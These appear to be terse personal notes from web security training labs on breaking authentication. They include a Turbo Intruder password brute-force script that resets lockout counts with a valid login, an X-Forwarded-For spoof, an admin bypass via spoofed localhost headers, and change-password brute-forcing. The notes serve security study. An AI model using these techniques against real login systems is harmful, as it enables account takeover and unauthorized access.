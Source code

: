 [#](#) Authentication

Bypass IP Filtering:

    X-Forwarded-For: foo
    
    Reset lock counts upon successful?

    ```
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False
                           )

        for word in open('C:\Users\srbx7\Desktop\lists\password.txt'):
            engine.queue(target.req, ["wiener","peter"])
            engine.queue(target.req, ["carlos",word.rstrip()])


    def handleResponse(req, interesting):
        # currently available attributes are req.status, req.wordcount, req.length and req.response
        if req.status == 302:
            table.add(req)
    ```
Time based enumeration (add long password ;) )

Can't bypass IP Filtering?

    Is there an admin interface /admin
    
       Host: localhost
       
       TRACE /admin # And find Custom header
       X-Custom-Ip-Authorization: 127.0.0.1
       
    Fuzz no matter what, and grep negative for error?

Change Password:

    - POST Change Username?
    - POST username=wiener&current=peter&new_1=AAAA&new_2=BBBB
        - > New Passwords do not match > Bruteforce
